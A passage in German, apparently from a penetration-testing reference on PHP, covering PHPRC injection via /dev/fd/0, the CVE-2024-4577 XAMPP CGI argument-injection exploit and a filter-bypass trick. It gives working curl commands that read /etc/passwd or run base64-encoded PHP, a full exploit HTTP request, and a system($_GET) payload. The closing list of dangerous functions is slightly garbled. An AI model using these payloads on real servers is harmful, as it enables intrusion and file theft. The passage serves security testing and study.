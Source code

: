 * Wenn Sie **keine Dateien hochladen können**, könnten Sie in FreeBSD die "Datei" `/dev/fd/0` verwenden, die den **`stdin`** enthält, der den **Körper** der an den `stdin` gesendeten Anfrage darstellt:
* `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'`
* Oder um RCE zu erhalten, aktivieren Sie **`allow_url_include`** und fügen Sie eine Datei mit **base64 PHP-Code** hinzu:
* `curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'`
* Technik [**aus diesem Bericht**](https://vulncheck.com/blog/juniper-cve-2023-36845).

### XAMPP CGI RCE - CVE-2024-4577

Der Webserver analysiert HTTP-Anfragen und leitet sie an ein PHP-Skript weiter, das eine Anfrage wie [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com) als `php.exe cgi.php foo=bar` ausführt, was eine Parameterinjektion ermöglicht. Dies würde es ermöglichen, die folgenden Parameter zu injizieren, um den PHP-Code aus dem Körper zu laden:
```jsx
-d allow_url_include=1 -d auto_prepend_file=php://input
```
Darüber hinaus ist es möglich, den "-" Parameter mit dem 0xAD Zeichen zu injizieren, aufgrund der späteren Normalisierung von PHP. Überprüfen Sie das Exploit-Beispiel aus [**diesem Beitrag**](https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/):
```jsx
POST /test.php?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: {{host}}
User-Agent: curl/8.3.0
Accept: */*
Content-Length: 23
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

<?php
phpinfo();
?>

```
## PHP Sanitization bypass & Brain Fuck

[**In diesem Beitrag**](https://blog.redteam-pentesting.de/2024/moodle-rce/) sind großartige Ideen zu finden, um einen Brain Fuck PHP-Code mit sehr wenigen erlaubten Zeichen zu generieren.\
Darüber hinaus wird auch eine interessante Möglichkeit vorgeschlagen, Funktionen auszuführen, die es ermöglichten, mehrere Überprüfungen zu umgehen:
```php
(1)->{system($_GET[chr(97)])}
```
## PHP Statische Analyse

Überprüfen Sie, ob Sie Code in Aufrufen dieser Funktionen einfügen können (von [hier](https://www.youtube.com/watch?v=SyWUsN0yHKI\&feature=youtu.be)):
```php
exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea
```
Wenn Sie eine PHP-Anwendung debuggen, können Sie die Fehlerausgabe global aktivieren, indem Sie `display_errors = On` in `/etc/php5/apache2/php.ini` hinzufügen und Apache neu starten: `sudo systemctl restart apache2`
